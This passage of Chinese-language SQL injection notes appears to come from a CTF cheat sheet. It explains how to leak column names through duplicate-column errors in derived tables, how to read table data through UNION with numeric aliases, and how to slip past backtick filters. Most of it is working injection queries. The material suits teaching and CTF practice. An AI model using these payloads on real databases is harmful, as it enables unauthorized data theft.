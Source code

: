 例如：`select * from (select * from users u1 join users u2) a;`

会产生派生表a,如果`users`中存在列名`id`就会报错

`Duplicate column name 'id'`

然后通过 `using` 来排除列名 `id`, 继续爆出其他的列名

`using` 会自动合并两个表中的相同列名

`select * from (select * from users u1 join users u2 using(id)) a;`

以此类推，可以爆出所有的表名

##### union派生表

**原理**

通过虚拟派生表的数字列名，来代替原有的列名

**操作**

通过union查询，需猜测列数，假设这里为5列

`select 1,2,3,4,5 union select * from table;`

会把table的数据存放到一个虚拟表中，同时为五个列设置别名1，2，3，4，5。

这时我们就可以通过别名1，2，3，4，5来代替列名，相当于列名被替换成了数字

进一步查询

``select 2 from (select 1,2,3,4,5 union select * from table)a;``

一些tips

**在数据库查询bypass过滤`**

php端不需要\`\`，但是在数据库中表名需要用\`\`来包裹,如\`table\`

这时``select 2 from (select 1,2,3,4,5 union select * from `table`)a;``

查询不出来数据（MySQL 5.7+ 已经支持数字作为列名了

如下才可以
``select `2` from (select 1,2,3,4,5 union select * from `table`)a;``

当为列名过滤``时，可以再次使用派生表别名来bypass

为派生表a的数字列名2设置别名b,通过b查询列名不再需要\`\`

``select b from (select 1,2 as b,3,4 as c,5 as d union select * from table) a``



**同时查询多个列**

``select concat(b,0x2d,c) from (select 1,2 as b,3 as c,4,5 union select * from `table`)a;``

`0x2d`是`-`，相当于查询2-3的列

[参考](https://err0r.top/article/mardasctf/#/)
[参考](https://erzbir.com/archives/no-column-sql-injection#/)


#### 异或注入
